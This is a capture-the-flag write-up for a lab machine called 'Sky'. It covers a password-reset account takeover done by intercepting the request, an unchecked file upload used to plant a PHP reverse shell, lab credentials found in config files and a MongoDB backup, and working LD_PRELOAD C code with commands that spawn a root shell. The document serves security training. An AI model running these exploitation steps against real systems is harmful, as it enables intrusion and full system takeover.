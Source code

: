**Hostname:**
- `Sky`

**OS:**
- Ubuntu Linux

**Users:**
- `webdeveloper`

**Credentials:**
Web: `admin@sky.thm:Password1` when changed via bug
`webdeveloper:BahamasChapp123!@#`

## Port Scan:

![Nmap Scan](../pictures/road/nmap_scan.png)

## Recon:

### Web Recon
**Server:**
- Apache 2.4.41

**Technologies:**
- PHP
- PHPMyAdmin

Registration endpoint allows registration of new users.
**When changing the password as the created user, use Burp to intercept the request and change the email= parameter to admin's email and change the password for admin.**

### Machine Recon
**Found MySQL DB credentials in /var/www/html/v2/admin/logincheck.php**
```
$DATABASE_HOST = 'localhost';
$DATABASE_USER = 'root';
$DATABASE_PASS = 'ThisIsSecurePassword!';
$DATABASE_NAME = 'SKY';
```

**Found user credentials in MongoDB backup**
```
> show databases;
admin   0.000GB
backup  0.000GB
config  0.000GB
local   0.000GB
> use backup
switched to db backup
> show collections
collection
user
> db.user.find()
{ "_id" : ObjectId("60ae2661203d21857b184a76"), "Month" : "Feb", "Profit" : "25000" }
{ "_id" : ObjectId("60ae2677203d21857b184a77"), "Month" : "March", "Profit" : "5000" }
{ "_id" : ObjectId("60ae2690203d21857b184a78"), "Name" : "webdeveloper", "Pass" : "BahamasChapp123!@#" }
{ "_id" : ObjectId("60ae26bf203d21857b184a79"), "Name" : "Rohit", "EndDate" : "December" }
{ "_id" : ObjectId("60ae26d2203d21857b184a7a"), "Name" : "Rohit", "Salary" : "30000" }
```

## Foothold / Privilege Escalation:

### Initial Foothold

From the port scan I could see a web application is present so first I went and performed a manual inspection of the application. On the home page I discovered a login endpoint under Merchant Central button which allowed me to register a user.

![Application homepage](../pictures/road/home_page.png)

Since the web application allowed registering users, I created myself a test user.

![User registration](../pictures/road/registration.png)

When I logged in as the test user I saw that it is somekind of a dashboard with simple functionalities although many were nonexistent.

![Test user dashboard](../pictures/road/dashboard.png)

What caught my eye was the Reset User functionality which allowed reseting a password without providing the old one.

On the other endpoing under the Profile section I saw a message that to change a profile picture I should send an email to admin@sky.thm.

![Admin email](../pictures/road/admin_email.png)

I used Burp to intercept the request when resetting my password and changed the email to the admin's email, and due to a bug in the application I was able to reset the password for the admin@sky.thm user.

![Admin reset password](../pictures/road/admin_reset.png)

Now when I logged in as the admin user I had permissions to upload pictures. The vulnerability here was that the backend did not check for file types, and this allowed me to upload a PHP reverse shell onto the server.

![PHP Shell Upload](../pictures/road/shell_upload.png)

Since I was already using Burp and it is performing a passive crawling in the background, when I uploaded the script it found the location of uploaded profile images under /v2/profileimages/.

![Images Location](../pictures/road/images_location.png)

To execute the shell I just had to send a request to /v2/profileimages/php-reverse-shell.php but before that start a listener on the specified port inside the php shell script.

![Executing the shell](../pictures/road/shell_exec.png)

Once inside I stabilised my shell using common commands which you can find by googling I am not going to write them here.
The next step was to start enumerating, I mostly use linpeas for this to automate a lot of basic enumeration.
Using a python server I uploaded linpeas to /dev/shm and started enumerating. Once finished what caught my eye were two databases running, MongoDB and MySQL. I looked through the PHP files from the application and found MySQL credentials but did not find anything of value inside the MySQL database.

![Internal Ports](../pictures/road/internal_ports.png)

![MySQL credentials](../pictures/road/mysql_creds.png)

I turned my focus to MongoDB and found an interesting database called backup. I checked inside and found plain text credentials for the webdeveloper user of the machine.

![MongoDB credentials](../pictures/road/mongodb_creds.png)

Using these credentials I was able to SSH into the machine as a real user.

![SSH in the machine](../pictures/road/ssh_login.png)

### Privilege Escalation:
User `webdeveloper` had sudo permissions on a binary called sky_backup_utility and it had LD_PRELOAD active in the env_keep option.

![Sudo -l output](../pictures/road/sudo_output.png)

LD_PRELOAD is a function that allows any program to use shared libraries so I could write a C code and compile it as a shared library file (.so) to get a root shell when executing sky_backup_utility as root
```C
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init(){
  unsetenv("LD_PRELOAD");
  setgid(0);
  setuid(0);
  system("/bin/bash");
}
```

**Compile as a shared library:**\
`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

After compiling execute the sky_backup_utility with LD_PRELOAD variable pointing to shell.so:\
`sudo LD_PRELOAD=/home/webdeveloper/shell.so /usr/bin/sky_backup_utility`\

Ignore the warnings that popup and just check that the shell.so file is created.

![C code compiling](../pictures/road/privesc_flow.png)

After executing the command a root shell will spawn.

![Root user](../pictures/road/root.png)

## Journal:

**Note: I tried compiling on my Kali machine but was not successful, so if you cannot compile on your own machine you can compile it inside the target.**

I was googling for LD_PRELOAD info and found this article which helped me understand what LD_PRELOAD is and what it does.\
[Capabilities of LD_PRELOAD](https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/)

As well as this article aboud privilege escalation using LD_PRELOAD.\
[Privilege Escalation with LD_PRELOAD](https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/)